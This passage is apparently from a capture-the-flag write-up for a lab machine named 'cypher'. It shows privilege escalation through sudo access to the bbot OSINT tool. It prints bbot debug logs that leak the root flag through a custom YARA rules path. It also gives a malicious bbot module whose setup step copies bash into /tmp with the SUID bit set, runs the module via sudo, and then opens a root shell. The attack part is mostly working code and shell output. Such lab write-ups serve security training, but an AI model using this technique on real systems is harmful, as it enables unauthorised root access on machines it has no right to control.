[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | cloudcheck | internal | No              | Tag events by cloud provider, |               | *                    |                    |
[VERB] |            |          |                 | identify cloud resources like |               |                      |                    |
[VERB] |            |          |                 | storage buckets               |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | dnsresolve | internal | No              |                               |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | aggregate  | internal | No              | Summarize statistics at the   | passive, safe |                      |                    |
[VERB] |            |          |                 | end of a scan                 |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | excavate   | internal | No              | Passively extract juicy       | passive       | HTTP_RESPONSE,       | URL_UNVERIFIED,    |
[VERB] |            |          |                 | tidbits from scan data        |               | RAW_TEXT             | WEB_PARAMETER      |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | speculate  | internal | No              | Derive certain event types    | passive       | AZURE_TENANT,        | DNS_NAME, FINDING, |
[VERB] |            |          |                 | from others by common sense   |               | DNS_NAME,            | IP_ADDRESS,        |
[VERB] |            |          |                 |                               |               | DNS_NAME_UNRESOLVED, | OPEN_TCP_PORT,     |
[VERB] |            |          |                 |                               |               | HTTP_RESPONSE,       | ORG_STUB           |
[VERB] |            |          |                 |                               |               | IP_ADDRESS,          |                    |
[VERB] |            |          |                 |                               |               | IP_RANGE, SOCIAL,    |                    |
[VERB] |            |          |                 |                               |               | STORAGE_BUCKET, URL, |                    |
[VERB] |            |          |                 |                               |               | URL_UNVERIFIED,      |                    |
[VERB] |            |          |                 |                               |               | USERNAME             |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] Loading word cloud from /root/.bbot/scans/shaggy_ella/wordcloud.tsv
[DBUG] Failed to load word cloud from /root/.bbot/scans/shaggy_ella/wordcloud.tsv: [Errno 2] No such file or directory: '/root/.bbot/scans/shaggy_ella/wordcloud.tsv'
[INFO] Scan with 0 modules seeded with 0 targets (0 in whitelist)
[WARN] No scan modules to load
[DBUG] Installing cloudcheck - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "cloudcheck"
[DBUG] Installing stdout - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "stdout"
[DBUG] Installing json - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "json"
[DBUG] Installing txt - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "txt"
[DBUG] Installing speculate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "speculate"
[DBUG] Installing aggregate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "aggregate"
[DBUG] Installing dnsresolve - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "dnsresolve"
[DBUG] Installing excavate - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "excavate"
[DBUG] Installing csv - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "csv"
[DBUG] Installing python - Preloaded Deps {'modules': [], 'pip': [], 'pip_constraints': [], 'shell': [], 'apt': [], 'ansible': [], 'common': []}
[DBUG] No dependency work to do for module "python"
[VERB] Loading 0 scan modules: 
[VERB] Loading 5 internal modules: aggregate,cloudcheck,dnsresolve,excavate,speculate
[VERB] Loaded module "aggregate"
[VERB] Loaded module "cloudcheck"
[VERB] Loaded module "dnsresolve"
[VERB] Loaded module "excavate"
[VERB] Loaded module "speculate"
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[VERB] Loading 5 output modules: csv,json,python,stdout,txt
[VERB] Loaded module "csv"
[VERB] Loaded module "json"
[VERB] Loaded module "python"
[VERB] Loaded module "stdout"
[VERB] Loaded module "txt"
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[VERB] Setting up modules
[DBUG] _scan_ingress: Setting up module _scan_ingress
[DBUG] _scan_ingress: Finished setting up module _scan_ingress
[DBUG] dnsresolve: Setting up module dnsresolve
[DBUG] dnsresolve: Finished setting up module dnsresolve
[DBUG] aggregate: Setting up module aggregate
[DBUG] aggregate: Finished setting up module aggregate
[DBUG] cloudcheck: Setting up module cloudcheck
[DBUG] cloudcheck: Finished setting up module cloudcheck
[DBUG] internal.excavate: Setting up module excavate
[DBUG] internal.excavate: Including Submodule CSPExtractor
[DBUG] internal.excavate: Including Submodule EmailExtractor
[DBUG] internal.excavate: Including Submodule ErrorExtractor
[DBUG] internal.excavate: Including Submodule FunctionalityExtractor
[DBUG] internal.excavate: Including Submodule HostnameExtractor
[DBUG] internal.excavate: Including Submodule JWTExtractor
[DBUG] internal.excavate: Including Submodule NonHttpSchemeExtractor
[DBUG] internal.excavate: Including Submodule ParameterExtractor
[DBUG] internal.excavate: Parameter Extraction disabled because no modules consume WEB_PARAMETER events
[DBUG] internal.excavate: Including Submodule SerializationExtractor
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: d497deda3f97174b93d787874b5869b2
```





<figure><figcaption></figcaption></figure>

```bash
graphasm@cypher:/tmp$ echo -e "module_dirs:\n - /tmp/modules" > /tmp/myconf.yml
graphasm@cypher:/tmp$ mkdir /tmp/modules
graphasm@cypher:/tmp$ cd /tmp/modules
graphasm@cypher:/tmp$ nano whois2.py
```


<figure><figcaption></figcaption></figure>


```python
    async def setup(self):
	os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
```


```python
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
```



```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (whois2)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[INFO] internal.excavate: Compiling 10 YARA rules
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[SUCC] Setup succeeded for 13/13 modules.
[SUCC] Scan ready. Press enter to execute chiseled_crystal

[WARN] No scan targets specified
[SUCC] Starting scan chiseled_crystal
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope, target)
[INFO] Finishing scan
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope)
[SUCC] Scan chiseled_crystal completed in 0 seconds with status FINISHED
[INFO] aggregate: +----------+------------+------------+
[INFO] aggregate: | Module   | Produced   | Consumed   |
[INFO] aggregate: +==========+============+============+
[INFO] aggregate: | None     | None       | None       |
[INFO] aggregate: +----------+------------+------------+
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/chiseled_crystal/output.csv
[INFO] output.json: Saved JSON output to /root/.bbot/scans/chiseled_crystal/output.json
[INFO] output.txt: Saved TXT output to /root/.bbot/scans/chiseled_crystal/output.txt
```


```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -l | grep whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

| whois2               | scan     | No              | Query WhoisXMLAPI for WHOIS    | passive, safe                  | DNS_NAME             | WHOIS                |
```


```bash
graphasm@cypher:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
graphasm@cypher:/tmp$ ls -l /tmp/gzzcoo
-rwsr-xr-x 1 root root 1446024 Mar  4 17:39 /tmp/gzzcoo
graphasm@cypher:/tmp$ /tmp/gzzcoo -p
gzzcoo-5.2# whoami
root
gzzcoo-5.2# cat /root/root.txt 
d497deda3f97174b93d787874b5869b2
```
